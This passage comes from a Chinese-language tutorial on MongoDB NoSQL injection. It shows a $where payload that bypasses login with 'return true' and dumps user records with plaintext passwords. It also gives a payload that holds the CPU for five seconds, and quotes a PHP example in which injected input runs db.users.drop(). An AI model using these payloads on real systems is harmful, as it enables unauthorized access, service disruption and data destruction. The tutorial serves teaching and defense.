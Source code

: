 ```sql
array(
    '$where' => "
    function() { 
        var username = '1';
        var password = '1';return true;var a='1';
        if(username == 'admin' && password == '123456'){
            return true;
        }else{
            return false;
        }
    }
")
```

进入 MongoDB 后执行的查询命令为：

```sql
> db.users.find({$where: "function() { var username = '1';var password = '1';return true;var a='1';if(username == 'admin' && password == '123456'){ return true; }else{ return false; }}"})

{ "_id" : ObjectId("60fa9c7b257f18542b68c4b8"), "username" : "admin", "password" : "123456" }
{ "_id" : ObjectId("60fa9c80257f18542b68c4b9"), "username" : "whoami", "password" : "657260" }
{ "_id" : ObjectId("60fa9c85257f18542b68c4ba"), "username" : "bunny", "password" : "964795" }
{ "_id" : ObjectId("60fa9c88257f18542b68c4bb"), "username" : "bob", "password" : "965379" }
>
```

我们从代码中可以看出，password 中的 `return true` 使得整个 JavaScript 代码提前结束并返回了 `true`，这样就构造出了一个永真的条件并完成了 NoSQL 注入。

此外还有一个类似于 DOS 攻击的 payload，可以让服务器 CPU 飙升到 100% 持续 5 秒：

```sql
username=1&password=1';(function(){var date = new Date(); do{curDate = new Date();}while(curDate-date<5000); return Math.max();})();var a='1
```

#### 2.3.2 使用 Command 方法造成的注入

MongoDB Driver 一般都提供直接执行 Shell 命令的方法，这些方式一般是不推荐使用的，但难免有人为了实现一些复杂的查询去使用。在 MongoDB 的服务器端可以通过 `db.eval` 方法来执行 JavaScript 脚本，如我们可以定义一个 JavaScript 函数，然后通过 `db.eval` 在服务器端来运行。

但是在 PHP 官网中就已经友情提醒了不要这样使用：

```sql
<?php
$m = new MongoDB\Driver\Manager;

// Don't do this!!!
$username = $_GET['field'];
// $username is set to "'); db.users.drop(); print('"

$cmd = new \MongoDB\Driver\Command( [
'eval' => "print('Hello, $username!');"
] );

$r = $m->executeCommand( 'dramio', $cmd );
?>
```

